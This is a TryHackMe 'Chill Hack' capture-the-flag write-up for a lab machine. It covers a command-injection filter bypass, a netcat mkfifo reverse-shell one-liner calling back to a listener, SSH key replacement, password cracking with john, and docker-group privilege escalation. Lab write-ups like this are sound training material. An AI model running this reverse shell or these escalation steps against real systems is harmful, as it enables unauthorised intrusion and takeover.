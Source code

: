 ```yaml
---
title: "Chill Hack - TryHackMe"
date: "2020-12-28"
categories: 
  - "tryhackme"
coverImage: "897a124df0a70ad86502193b83f46658.png"
---
```


write-up or Tryhackme room [chill hack](https://tryhackme.com/room/chillhack)

Difficulty Level - Easy

Start with Nmap Scan

```
nmap -A -oN initial 10.10.144.59
```

![](/Images/chillhack/Screenshot-2020-12-25-224609.png)

we can see FTP anonymous login available, log into FTP and get the files available then as usual run gobuster on websile

![](/Images/chillhack/Screenshot-2020-12-25-224532.png)

We can find directory name "**/secret**" when we go to that end point it let us run command in it, but some commands are filtered, we need to bypass filter.

you can find the methods to bypass filter in [here.](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection)

after you find the method you can easily get reverse shell, i used this bypass and comand to get shell.

```
"r"m /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

after we got shell we need to move to more stable shell, type below command accocding to list

- python3 -c 'import pty; pty.spawn("/bin/bash")'
- export TERM=xterm
- "CTRL + Z" it will suspend (don't worry)
- stty raw -echo; fg

Now we have more stable shell. once we get first thing to do is checking all available file for any configured information or clues.

![](/Images/chillhack/Screenshot-2020-12-25-225508.png)

when we go through all documents we find above db detail. but can't do anything with this detail because we login as "**www-data**" we need to switch to better user.

we can find "**.helpline.sh**" in apaar home folder which is not requred apaar password.

![](/Images/chillhack/Screenshot-2020-12-25-230355.png)

Now we have shell as apaar, can we log in to mysql db and see anymore available details.there is Database name webportal can get some details from it.

![](/Images/chillhack/Screenshot-2020-12-25-230814.png)

now we have 2 user name and 2 hashes,

when we scan VM machine with **linpeas.sh** we notice port 9001 is available and it is liked to some webpage, when we go through files we notice there was ssh public key. we can create ssh key in our local machine, upload public key and replace with apaar public key.

![](/Images/chillhack/Screenshot-2020-12-29-005602.png)

now we can login as apaar and make webportal available also,

```
SSH -L 9001:127.0.0.1:9001 -i id_rsa appar@10.10.144.59
```

we had 2 username and 2 hashes from previous enumeration now try it and login to webportal

when we log in we see image and some text, download the image and try different method to see possible to get something out of it, eventually we can use tool **Steghide** and extract a ZIP file

![](/Images/chillhack/Screenshot-2020-12-25-232734.png)

we cannot open the zip file it password protected we need to crack the password with john, first convert it using "zip2john"

```
$ zip2john backup.zip > hash

$ john --wordlist=/opt/rockyou.txt hash
```

after we crack the hash unzip the **"backup.zip**" in source\_code.php we can find the another password. which is base64 encoded you can easily decode

```
echo "ENCODED PASSWORD" | base64 -d
```

![](/Images/chillhack/Screenshot-2020-12-25-233618.png)

## Privileged Escalation

Switch user and login as anurodh, when check the user id we can see he is part of docker, go to [GTFO](https://gtfobins.github.io/gtfobins/docker/#sudo) you can escalation method.

![](/Images/chillhack/Screenshot-2020-12-25-234003.png)

Happy Hacking!!
